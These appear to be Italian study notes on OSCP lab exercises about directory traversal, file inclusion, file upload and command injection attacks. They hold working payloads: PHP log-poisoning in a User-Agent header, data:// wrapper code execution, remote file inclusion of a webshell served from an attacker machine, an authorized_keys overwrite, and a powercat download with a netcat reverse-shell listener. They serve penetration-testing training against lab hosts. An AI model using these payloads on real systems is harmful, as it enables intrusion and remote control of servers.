 # 9.1 Directory Traversal
## 9.1.2. Identifying and Exploiting Directory Traversal

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

# 9.2 File Inclusion Vulnerabilities
## 9.2.1 Local File Inclusion (LFI)

```bash
curl http://mountaindesserts.com/meteor/index.php?page=admin.php
```

```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
```

Richiesta catturata mediante _burpsuite_:

```bash
GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log HTTP/1.1
Host: 192.168.235.193
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

**Log Poisoning**, modificando la richiesta aggiungendo codice eseguibile all'interno del campo "User-Agent":

```bash
GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log HTTP/1.1
Host: 192.168.235.193
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0 <?php 3ch0 syst3m(----cmd-----); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

La richiesta successiva sarà così:

```bash
GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ps HTTP/1.1
Host: 192.168.235.193

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Nel laboratorio successivo veniva richiesto di operare in ambiente windows:

```bash
GET /meteor/index.php?page=../../../../../../../../../xampp\apache\logs\access.log&cmd=type+hopefullynobodyfindsthisfilebecauseitssupersecret.txt HTTP/1.1
Host: 192.168.235.193
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http:192.168.235.193/meteor/index.php?page=../../../../../../../../../xampp\apache\logs\access.log
Upgrade-Insecure-Requests: 1
```

## 9.2.2. PHP Wrappers

```bash
curl http://$IP/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php

echo "e9yuh44UHIUBFSBDKJKJB" | base64 -d

curl "http://$IP/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

curl "http://$IP/meteor/index.php?page=data://text/plain,<?php%203cho%20sist3m('uname+-a');?>"
```

## 9.2.3. Remote File Inclusion (RFI)

- [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```bash
cd /usr/share/webshells/php

python3 -m http.server 9999

curl "http://$IP_TARGET/meteor/index.php?page=http://$KALI_IP:9999/BACK.PHP&cmd=...
```

# File Upload Vulnerabilities
## 9.3.1. Using Executable Files

Nel primo esercizio era richiesto di exploitare la vulnerabilità di file upload. Per farlo bisognava semplicemente caricare un file presente nella cartella /usr/share/webshells/php e modificare l'estensione da php a pHP.

I passi successivi per ottenere una reverse-shell sono stati i seguenti:

![](/OSCP/Immagini_OSCP/Capitolo_9/Using_Executable_Files_1.png)

![](/OSCP/Immagini_OSCP/Capitolo_9/Using_Executable_Files_2.png)

## 9.3.2. Using Non-Executable Files

In questo caso, non potendo caricare direttamente una webshell, l'obiettivo era quello di sovrascrivere il file **authorized_keys** file attraverso il meccanismo del file upload.

![](/OSCP/Immagini_OSCP/Capitolo_9/Using_Non-ExecutableFiles_1.png)

```bash
cp fileup > authorized_keys
```

![](/OSCP/Immagini_OSCP/Capitolo_9/Using_Non-ExecutableFiles_2.png)

```bash
ssh -i fileup -p 2222 root@$IP_TARGET
```

## 9.4.1. OS Command Injection

Il primo lab consisteva nel sfruttare una vulnerabilità di _command injection_ combinando un comando consentito (git), con qualcosa che ci potesse permettere di ottenere una reverse-shell.
Molto utile questo code snippet per scoprire dove è eseguito il codice:

![](/OSCP/Immagini_OSCP/Capitolo_9/OS_Command_Injection_1.png)

Successivamente è stato copiato questo file nella directory dove si stava operando, avviando un server http tramite python:

```bash
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

python3 -m http.server 80
```

Poi è stato avviato un listener:

```bash
nc -nvlp 4444
```

Ed è stato iniettato il comando per scaricare powercat ed eseguire una reverse shell:

![](/OSCP/Immagini_OSCP/Capitolo_9/OS_Command_Injection_2.png)

## CAPSTONE

- Start by using nmap to find open ports, with a focus on HTTP ports.
- Visit these HTTP ports and explore the main page for potential vulnerabilities.
- To upload files successfully, identify the web server type and compatible file types for server-side scripting (ASPX)
- After uploading a file to the target, the index page provides hints on locating your webshell. (PORT 80 MAIN DIRECTORY)
- Once you access your webshell, the final step is to read the flag, typically found under the C:\inetpub\ directory.